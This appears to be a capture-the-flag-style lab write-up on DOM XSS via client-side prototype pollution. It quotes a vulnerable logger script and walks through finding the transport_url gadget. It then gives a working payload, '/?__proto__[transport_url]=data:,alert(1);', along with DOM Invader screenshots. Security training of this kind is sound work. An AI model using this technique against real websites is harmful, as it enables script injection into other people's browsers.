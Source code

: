 # DOM XSS via client-side prototype pollution
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

You can solve this lab manually in your browser, or use DOM Invader to help you. 

# Solution
## Analysis
The website logs search requets.

|![](Images/image-10.png)|
|:--:| 
| *Logger request with JSON data* |
|![](Images/image-9.png)|
| *Used scripts - Logger script* |

Source code of `searchLogger.js`:
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

## Exploitation
### Manual exploitation
Attacker can deliver exploit by specifying `transport_url` property of `config` - `transport_url` can be used as gadget.

|![](Images/image-11.png)|
|:--:| 
| *Test for prototype pollution* |
|![](Images/image-12.png)|
| *Debugger analysis - transport_url property is potential gadget* |
|![](Images/image-13.png)|
| *Rendered script on page with final payload* |

Final payload:
```
/?__proto__[transport_url]=data:,alert(1);
```


### DOM Invader exploitation

|![](Images/image-14.png)|
|:--:| 
| *DOM Invader - Detected sources* |
|![](Images/image-15.png)|
| *DOM Invader - Scanning for gadgets* |
|![](Images/image-16.png)|
| *DOM Invader - Scan results* |
|![](Images/image-17.png)|
| *DOM Invader - Final exploit* |
